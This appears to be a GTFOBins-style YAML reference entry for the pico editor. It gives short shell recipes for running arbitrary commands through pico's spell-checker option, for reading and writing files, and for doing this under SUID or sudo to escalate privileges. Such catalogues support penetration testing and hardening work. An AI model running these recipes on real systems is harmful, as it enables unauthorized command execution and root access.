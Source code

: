 ```yaml
---
functions:
  execute-non-interactive:
  - description: After running this exit the editor to see the command output.
    code: |
      COMMAND=id
      TF=$(mktemp)
      echo "$COMMAND" > $TF
      chmod +x $TF
      pico -s $TF /etc/hosts
      ^T
  file-write:
  - code: |
      pico file_to_write
      ^O
  file-read:
  - code: 'pico file_to_read

'
  suid-enabled:
  - description: After running this exit the editor to see the command output.
    code: |
      COMMAND=id
      TF=$(mktemp)
      echo $'#!/bin/sh -p\n'"$COMMAND" > $TF
      chmod +x $TF
      ./pico -s $TF /etc/hosts
      ^T
  sudo-enabled:
  - description: After running this exit the editor to see the command output.
    code: |
      COMMAND=id
      TF=$(mktemp)
      echo "$COMMAND" > $TF
      chmod +x $TF
      sudo pico -s $TF /etc/hosts
      ^T
---
```

